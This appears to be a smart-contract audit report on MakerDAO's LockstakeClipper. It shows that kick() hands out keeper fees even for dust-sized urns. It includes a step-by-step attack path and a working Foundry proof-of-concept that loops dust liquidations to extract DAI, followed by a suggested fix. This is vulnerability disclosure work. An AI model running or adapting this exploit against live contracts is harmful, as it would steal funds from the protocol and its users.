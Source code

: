 Helpful Dijon Spider

High

# Attackers will steal Maker and its users by opening dust urns and instantly liquidating, stealing up to infinite funds

### Summary

`LockstakeClipper::kick()` always provides incentives to kick a liquidation auction, regardless of the size of the urn to liquidate. Thus, attackers can create urns with dust amounts, liquidate them in the next block as the rate has increased and steal keeper fees. The attack can be repeated as many times as the attacker wants, so it will have catastrophic impacts.

Note: this issue is partially mentioned in the [readme](https://github.com/makerdao/sherlock-contest/blob/9a01337e8f82acdf699a5c1c54233636c640ca89/README.md#lockstake), but it fails to address the correct impact, as it assumes the `dust` threshold is always taken into account, but it is not and it is possible to create liquidations with an amount of 10 or similar.
> As with other collaterals, "tip" and "chip" are assumed to be chosen very carefuly, while taking into account the dust parameter and with having in mind incentive farming risks.

### Root Cause

In `LockstakeClipper::kick()`, incentives are always given, as can be seen in the code [below](https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/LockstakeClipper.sol#L262-L265).
```solidity
function kick(
    ...
) external auth lock isStopped(1) returns (uint256 id) {
    ...
    uint256 _tip  = tip;
    uint256 _chip = chip;
    uint256 coin;
    if (_tip > 0 || _chip > 0) { //@audit missing minimum amount check
        coin = _tip + wmul(tab, _chip);
        vat.suck(vow, kpr, coin);
    }
    ...
}
```
This can be abused by attackers who created dust urns and liquidate them right away, stealing keeper fees. 

### Internal pre-conditions

None.

### External pre-conditions

None.

### Attack Path

1. Attacker calls `LockstakeEngine::open()`, opening an urn (or reuses a previous one).
2. Attacker calls `LockstakeEngine::lock()`, locking a dust amount (such as 10) in the urn.
3. Attacker calls `LockstakeEngine::draw()`, drawing the maximum possible such that it is almost liquidated.
4. Attacker waits out 1 block.
5. Attacker calls `Jug::drip()`, increasing the interest rate on the borrows so the urn becomes liquidatable.
6. Attacker calls `Dog::bark()`, which calls `LockstakeClipper::kick()`, performing the liquidation and receiving the incentives through `Vat::suck()`.
7. Attacker calls `DaiJoin::exit()` and withdraws the DAI.
Steps 1-3 and 5-6 can be performed in a loop to increase the theft and decrease gas costs.

### Impact

Attacker receives keeper fees without actually contributing to the protocol. Due to the use of a flat tip as liquidation incentive, the protocol has to ensure that it only hands it out if the to be liquidated urn actually has collateral and debt to justify the incentive. Otherwise the mechanism can be abused by attackers that create dust lock and draw urns to steal the incentives, putting the whole protocol at risk. Thus, the attacker steals up to infinite funds from the protocol and creates a huge amount of debt, which would harm the protocol and all users.

### PoC

A poc was built forking block `20293240`, confirming that the described attack is possible and is very profitable for an attacker. The attack can be repeated as many times as the attacker wishes, as long as the incentives exceeds the gas cost. The bigger the number of iterations the more profit the attacker can make, which is theoretical unlimited and we can confirm that with only 50 iterations the attacker is able to get 5k $DAI spending only 271 USD in gas fees.

```solidity
function test_POC_ProfitableLiquidation() public {
    address attacker = makeAddr("attacker");
    uint256 lockAmount = 10;
    uint256 numAttacks = 50;
    address[] memory urns = new address[](numAttacks);
    deal(address(mkr), attacker, lockAmount*numAttacks);
    vm.startPrank(attacker);

    uint256 initGas = gasleft();
    mkr.approve(address(engine), type(uint256).max);

    for (uint i = 0; i < numAttacks; i++) {
        urns[i] = engine.open(i);
        engine.lock(urns[i], lockAmount, 0);
        (,, uint256 spot,,) = dss.vat.ilks(ilk);
        uint256 drawAmount = lockAmount * spot / RAY;
        engine.draw(urns[i], attacker, drawAmount);
    }
    uint256 totalGas = initGas - gasleft();

    skip(12);

    initGas = gasleft();
    for (uint i = 0; i < numAttacks; i++) {
        dss.jug.drip(ilk);
        dss.dog.bark(ilk, urns[i], attacker);
    }
    totalGas += initGas - gasleft();

    initGas = gasleft();
    dss.vat.hope(address(dss.daiJoin));
    dss.daiJoin.exit(attacker, dss.vat.dai(attacker) / RAY);
    totalGas += initGas - gasleft();

    assertEq(totalGas, 29036936);
    uint256 gasPrice = 3; // gwei
    uint256 ethPrice = 3122; // USD
    uint256 cost = totalGas * gasPrice * ethPrice / 1e9 ;
    assertEq(cost, 271);
    assertEq(dss.dai.balanceOf(attacker), 5000);
}
```

### Mitigation

Implement a similar mitigation to the one performed in `LockstakeClipper::redo()`.  It correctly [only](https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/LockstakeClipper.sol#L306) hands out incentives if the size of the liquidation is bigger than a `chost` threshold, mitigating this attack vector.
```solidity
function redo(
    ...
) external lock isStopped(2) {
    ...
    uint256 _tip  = tip;
    uint256 _chip = chip;
    uint256 coin;
    if (_tip > 0 || _chip > 0) {
        uint256 _chost = chost;
        if (tab >= _chost && lot * feedPrice >= _chost) { //@audit here this attack vector is correctly mitigated
            coin = _tip + wmul(tab, _chip);
            vat.suck(vow, kpr, coin);
        }
    }
    ...
}
```